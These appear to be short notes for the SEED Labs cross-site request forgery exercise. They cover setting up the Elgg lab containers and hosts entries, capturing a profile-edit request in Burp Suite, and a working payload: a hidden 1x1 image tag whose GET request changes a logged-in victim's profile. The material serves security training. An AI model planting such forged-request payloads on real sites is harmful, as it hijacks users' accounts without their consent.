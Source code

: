 # CSRF

# Definition
Cross-site request forgery (CSRF) is a type of attack that occurs when a malicious web page causes a user's browser to perform an unwanted action on a trusted site

# Lab creation
```bash
wget https://seedsecuritylabs.org/Labs_20.04/Files/Web_CSRF_Elgg/Labsetup.zip

unzip Labsetup.zip
rm !$

cd Labsetup
sudo docker compose up -d

cat /etc/hosts
10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.0.105 www.attacker32.com

ping -c 1 www.seed-server.com
ping -c 1 www.example32.com
ping -c 1 www.attacker32.com

# Change name profile and catch post with BUrpsuite
<>
burpsuite >& /dev/null & disown

# Quit tokens until name var and change request by GET
<img src="http://www.seed-server.com/action/profile/edit?name=Edibauer&description=&accesslevel%5bdescription%5d=2&briefdescription=&accesslevel%5bbriefdescription%5d=2&location=&accesslevel%5blocation%5d=2&interests=&accesslevel%5binterests%5d=2&skills=&accesslevel%5bskills%5d=2&contactemail=&accesslevel%5bcontactemail%5d=2&phone=&accesslevel%5bphone%5d=2&mobile=&accesslevel%5bmobile%5d=2&website=&accesslevel%5bwebsite%5d=2&twitter=&accesslevel%5btwitter%5d=2&guid=56" alt="image" width="1" height="1"/>




```
